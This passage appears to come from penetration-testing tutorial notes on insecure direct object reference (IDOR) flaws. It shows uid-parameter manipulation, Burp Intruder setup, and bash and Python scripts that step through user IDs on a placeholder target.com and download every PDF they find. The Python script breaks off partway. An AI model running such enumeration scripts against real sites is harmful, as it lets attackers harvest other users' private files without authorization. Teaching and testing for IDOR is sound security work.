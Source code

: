 #### Parameter-Based IDOR  
**URL Parameter Manipulation:**
```bash
# Original request
http://target.com/documents.php?uid=1

# Test other users
http://target.com/documents.php?uid=2
http://target.com/documents.php?uid=3
```

**Key Indicators:**
- Different file links in HTML source
- Changed file names/dates in responses
- Access to unauthorized data

### Mass Enumeration Techniques

#### Method 1: Bash Script Automation
```bash
#!/bin/bash
# IDOR mass enumeration script

url="http://target.com"

for i in {1..20}; do
    echo "Testing UID: $i"
    
    # Extract document links for each user
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?\.pdf"); do
        echo "Found: $link"
        wget -q $url/$link
    done
done
```

#### Method 2: Burp Suite Intruder
**Setup:**
1. Send request to Intruder: `GET /documents.php?uid=1`
2. Set payload position on UID value: `?uid=§1§`
3. Payload type: Numbers (1-100)
4. Start attack and analyze responses

#### Method 3: Python Script
```python
#!/usr/bin/env python3
import requests
import re

base_url = "http://target.com"

for uid in range(1, 21):
    response = requests.get(f"{base_url}/documents.php?uid={uid}")
    
    # Extract document links
    links = re.findall(r'/documents/.*?\.pdf', response.text)
    
    for link in links:
        print(f"UID {uid}: {link}")
        
        # Download file
        file_response = requests.get(f"{base_url}{link}")
        filename = link.split('/')[-1]
        
```